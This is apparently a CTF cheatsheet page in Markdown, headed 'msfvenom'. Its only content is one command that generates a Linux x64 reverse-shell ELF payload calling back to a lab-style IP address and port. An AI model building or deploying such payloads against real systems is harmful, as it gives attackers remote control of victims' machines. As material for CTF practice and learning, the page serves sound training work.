 ```yaml
---
layout: post
title: "msfvenom"
published : true
permalink: /ctf/cheatsheets/common/msfvenom
tags: [CTF, common, cheatsheet, reverse shell, msfvenom, linux]
---
```

## lunux, x64, reverse shell
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=7777 -f elf > shell.elf
```

